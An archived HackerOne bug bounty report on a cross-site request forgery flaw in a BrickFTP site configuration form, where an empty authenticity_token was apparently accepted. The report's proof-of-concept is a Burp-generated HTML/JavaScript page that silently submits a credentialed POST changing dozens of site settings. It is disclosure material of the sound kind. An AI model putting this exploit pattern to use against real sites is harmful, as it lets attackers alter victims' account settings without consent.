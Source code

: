 # CSRF @ configuration 

## Report Details
- **Report ID**: 208734
- **URL**: https://hackerone.com/reports/208734
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-02-24T22:26:35.099Z
- **Disclosed**: 2017-05-27T16:46:05.581Z

## Reporter
- **Username**: simba50091
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: files

## Vulnerability Information
Enter the support PIN from your test site (if applicable): 
Enter the name of your test site (if applicable): gaming2
Enter the subdomain from your test site (if applicable): gaming2

Fill in the rest of your report below:
----
Greeting guys , 
i found a CSRF Bug at the configuration - > General form in all parameters 
the problem is in the "authenticity_token" parameter which is not properly set well , because it accept the null value which i bypassed it 
POC: 
1-generate a CSRF HTML form from the configuration -> general 
2-replace "authenticity_token" parameter value with null 
3-test it , it success 

POC CSRF FORM:
-------
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://gaming2.brickftp.com/sites/update", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------13127814166702694341666648723");
        xhr.withCredentials = true;
        var body = "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"utf8\"\r\n" +
          "\r\n" +
          "\xe2\x9c\x93\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"_method\"\r\n" +
          "\r\n" +
          "patch\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"authenticity_token\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"group\"\r\n" +
          "\r\n" +
          "general\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[name]\"\r\n" +
          "\r\n" +
          "gamingtoooorrrrr\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[subdomain]\"\r\n" +
          "\r\n" +
          "gaming2\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[domain]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[email]\"\r\n" +
          "\r\n" +
          "hmahmoud@promex.me\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[language]\"\r\n" +
          "\r\n" +
          "en\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[bundle_expiration]\"\r\n" +
          "\r\n" +
          "30\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[overage_notify]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[welcome_email_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[welcome_email_enabled]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[welcome_email_cc]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[welcome_custom_text]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[ask_about_overwrites]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[show_request_access_link]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[anon_uploads_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[anon_uploads_path]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[windows_mode_ftp]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[ssl_required]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[ssl_required]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[tls_disabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[sftp_user_root_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[sftp_user_root_enabled]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[opt_out_global]\"\r\n" +
          "\r\n" +
          "false\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[oauth_google_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[user_lockout]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[user_lockout_tries]\"\r\n" +
          "\r\n" +
          "5\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[user_lockout_within]\"\r\n" +
          "\r\n" +
          "6\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[user_lockout_lock_period]\"\r\n" +
          "\r\n" +
          "24\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[include_password_in_welcome_email]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[disable_password_reset]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[password_min_length]\"\r\n" +
          "\r\n" +
          "8\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[password_require_letter]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[password_require_number]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[password_require_mixed]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[password_require_special]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[allowed_file_types]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[allowed_ips]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[use_provided_modified_at]\"\r\n" +
          "\r\n" +
          "false\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[days_to_retain_backups]\"\r\n" +
          "\r\n" +
          "30\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[color2_top]\"\r\n" +
          "\r\n" +
          "#000000\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[color2_top_text]\"\r\n" +
          "\r\n" +
          "#ffffff\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[color2_link]\"\r\n" +
          "\r\n" +
          "#d34f5d\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[color2_text]\"\r\n" +
          "\r\n" +
          "#d34f5d\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[site_header]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[site_footer]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[site_css]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[icon128]\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[icon48]\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[icon32]\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[icon16]\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[logo]\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[login_help_text]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[tab_config]\"\r\n" +
          "\r\n" +
          "brick_default\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"utf8\"\r\n" +
          "\r\n" +
          "\xe2\x9c\x93\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"authenticity_token\"\r\n" +
          "\r\n" +
          "z19IcfV537Y9EPny3LIkYlhi/Ahzw5AtLi6u51q16deQIJuC/XmIubfsSQHiwdgx41ZS3SfLmJqz/7WOGIxThQ==\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"api_key[name]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"api_key[expires_at]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"api_key[permission_set]\"\r\n" +
          "\r\n" +
          "full\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[api_uploads_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[api_root_folder]\"\r\n" +
          "\r\n" +
          "API Uploads\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[api_user_creation_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[air_enabled]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[air_app_name]\"\r\n" +
          "\r\n" +
          "BrickFTP Uploader\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[air_app_description]\"\r\n" +
          "\r\n" +
          "Shares your files using your BrickFTP account.\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"site[air_public_download]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------13127814166702694341666648723\r\n" +
          "Content-Disposition: form-data; name=\"commit\"\r\n" +
          "\r\n" +
          "Save\r\n" +
          "-----------------------------13127814166702694341666648723--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

------

Best Regards
Hameed



## Attachments
No attachments
